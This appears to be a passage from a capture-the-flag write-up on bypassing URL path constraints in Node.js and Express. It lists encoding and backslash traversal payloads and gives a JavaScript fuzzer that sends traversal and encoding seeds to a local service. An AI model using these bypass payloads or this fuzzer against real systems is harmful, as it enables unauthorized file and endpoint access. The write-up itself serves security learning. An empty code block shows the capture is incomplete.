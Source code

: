 ```python
```
You can also use double-encoding `%2561` to represent `a`, or backslash to represent `/` in order to bypass the constrinat.

#### Failed attempts
- Using `../` to bypass the constaint 2 in node `http` module
    - Actually node v11.0.0 supports this feature. We can pass the `/aaaaa/../flag`  to the parameter, the node `http` will resolve to `/flag` and send the request to `/flag`. However this doesn't work in node v8.12.0.
- Using `../` or percent encoding to bypass the constaint2 in `express` router
    - However `express` seems to parse the API very strictly...... I can't even make the express parsing incorrectly
    - `../` only works in static filepath, like `images/../images/image.png`.
- Write a fuzzing script to find characters which make the parser parsing incorrectly:
    - Nothing interesting in node v8.12, but this script help me to find this interesting payload in node v11.0.0
    - `http://localhost/abcde\..\def` becomes `http://localhost/def`

```javascript
const http = require('http');

function get(url) {
  return new Promise(resolve => {
    //console.log(JSON.stringify(url))
    try {
        http.get(url,r => {
        r.setEncoding('utf8');
        r.on('data', c => {
        if (c.indexOf('index') != -1 && r.statusCode == 200)
          resolve(console.log(url, c))
        if (c.indexOf('public_links') != -1 && r.statusCode == 200)
          resolve(console.log(url, c))
        else
          resolve();
      });
    }).on('error', e => resolve());
    } catch(e) {
      resolve();
    }
  });
}

var seeds = ['', '//', '\uff2f\uff2f', '\uff2e\uff2e', '%2f', '..', '..\\..\\', '..\\', '../', '\\\\', 'public_links', '/', '%2e%2e', '%252e%252e', '..', '.', '?', '%2f', '%252f', '%3f', '%253f', '\\\\', '\\', '%5c', '%255c', '\x00', '\x01', '\x02', '\x03', '\x04', '\x05', '\x06', '\x07', '\x08', '\t', '\n', '\x0b', '\x0c', '\r', '\x0e', '\x0f', '\x10', '\x11', '\x12', '\x13', '\x14', '\x15', '\x16', '\x17', '\x18', '\x19', '\x1a', '\x1b', '\x1c', '\x1d', '\x1e', '\x1f', ' ', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', '.', '/', ':', ';', '<', '=', '>', '?', '@', '[', '\\', ']', '^', '_', '`', '{', '|', '}', '~', '\x7f']

;
(async () => {
  for (let i of seeds)
  for (let j of seeds)
  for (let k of seeds){
    url = 'http://127.0.0.1:5000/public_notes' + i+j+k
    await get(url)
  }
})()

```
